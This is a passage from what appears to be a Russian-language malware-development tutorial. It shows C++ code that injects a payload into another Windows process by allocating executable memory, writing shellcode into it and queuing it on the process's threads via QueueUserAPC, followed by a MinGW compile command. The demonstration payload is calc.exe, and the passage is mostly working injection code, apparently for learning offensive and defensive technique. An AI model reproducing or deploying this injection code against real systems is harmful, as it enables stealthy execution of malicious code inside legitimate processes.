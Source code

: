 ```cpp
    rb = VirtualAllocEx(ph, NULL, 
    my_payload_len, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, 
    my_payload, 
    my_payload_len, NULL);

    if (getTids(pid, tids)) {
      for (DWORD tid : tids) {
        HANDLE ht = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
        if (ht) {
          QueueUserAPC((PAPCFUNC)rb, ht, NULL);
          printf("payload injected via QueueUserAPC\n");
          CloseHandle(ht);
        }
      }
    }
    CloseHandle(ph);
  }
  return 0;
}

```

Как обычно, для простоты, мы используем 64-битный `calc.exe` в качестве payload и выводим сообщение для демонстрации.    

Давайте скомпилируем наш код:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

![APC injection 7](./images/23/2021-11-22_16-31.png){width="80%"}    
